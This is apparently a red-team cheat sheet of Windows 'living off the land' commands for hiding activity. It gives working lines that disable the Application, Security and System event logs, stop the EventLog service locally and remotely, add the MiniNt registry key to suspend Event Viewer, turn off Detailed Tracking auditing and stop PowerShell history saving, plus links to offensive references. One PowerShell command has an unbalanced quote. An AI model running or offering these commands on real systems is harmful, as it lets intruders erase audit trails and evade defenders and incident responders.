 # Living off the Land

## 01 - Command Prompt

Disable specific logs.

```
C:\> wevtutil.exe sl Application /e:false

wevtutil.exe sl Security /e:false

wevtutil.exe sl System /e:false
```

Disable the event log service.

```
C:\> net.exe stop EventLog
```

Suspend **Event Viewer** from generating logs

```
C:\> reg.exe add "[\\<IP>\]HKLM\System\CurrentControlSet\Control\MiniNt" /f
```

Disable detailed tracking.

```
C:\> auditpol.exe /get /category:"Detailed Tracking"

C:\> auditpol.exe /set /category:"Detailed Tracking" /success:disable /failure:disable
```

## 02 - PowerShell

Disable history commands.

```
PS C:\> Set-PSReadLineOption -HistorySaveStyle SaveNothing
```

Disable the event log service.

```
PS C:\> Stop-Service -Force -Name "EventLog"

PS C:\> Get-Service [-ComputerName <IP>] -Name "EventLog" | Stop-Service -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "EventLog" }
```

Suspend Event Viewer from generating logs

```
PS C:\> New-Item -Path Registry::HKLM:\System\CurrentControlSet\Control\MiniNt" -Force
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### r00t 3xp10it

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### DMCXBlue

- [DMCXBlue: Impair Command History Logging](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1562-impair-defenses/impair-command-history-logging)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)